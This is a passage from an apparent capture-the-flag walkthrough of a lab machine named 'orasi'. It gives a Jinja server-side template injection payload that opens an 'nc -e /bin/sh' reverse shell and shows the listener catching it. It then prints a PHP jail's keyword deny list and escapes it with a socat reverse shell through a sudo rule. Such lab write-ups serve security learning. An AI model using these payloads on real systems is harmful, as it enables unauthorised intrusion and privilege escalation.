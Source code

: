 ```
  000024912:   200        0 L      1 W        4 Ch        "l333tt"
{% endhighlight %}

## Server Side Template Injection

- Payload

{% highlight sh %}
\{\{ request.application.__globals__.__builtins__.__import__('os').popen('nc -e /bin/sh 10.0.2.15 4444').read() \}\}
{% endhighlight %}


- Browser

{% highlight sh %}
 http://10.0.2.176:5000/sh4d0w$s?l333tt=\{\{request.application.__globals__.__builtins__.__import__('os').popen('nc -e /bin/sh 10.0.2.15 4444').read()\}\}
{% endhighlight %}

- Listener

{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop]
  └─$ nc -lvp 4444               
  listening on [any] 4444 ...
  connect to [10.0.2.15] from 10.0.2.176 [10.0.2.176] 59760
  /usr/bin/script -qc /bin/bash /dev/null
  www-data@orasi:~/html$
{% endhighlight %}

## PHP Jail Escape

{% highlight sh %}
  www-data@orasi:~/html$ sudo -l
  User www-data may run the following commands on orasi:
      (kori) NOPASSWD: /bin/php /home/kori/jail.php *

  ww-data@orasi:~/html$ cat /home/kori/jail.php
  cat /home/kori/jail.php
  ...
  if(preg_match('/(|bash|eval|nc|whoami|open|pass|require|include|file|system|\/)/i', $var))
  ...
  www-data@orasi:~/html$ which socat
  /usr/bin/socat
  www-data@orasi:~/html$ sudo -u kori /bin/php /home/kori/jail.php "socat TCP:10.0.2.15:5555 EXEC:sh"
{% endhighlight %}

## Listener

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ nc -lvp 5555
  listening on [any] 5555 ...
  connect to [10.0.2.15] from 10.0.2.176 [10.0.2.176] 60606
  id
  uid=1001(kori) gid=1001(kori) groups=1001(kori)
{% endhighlight %}

## Copy the APK

{% highlight sh %}
```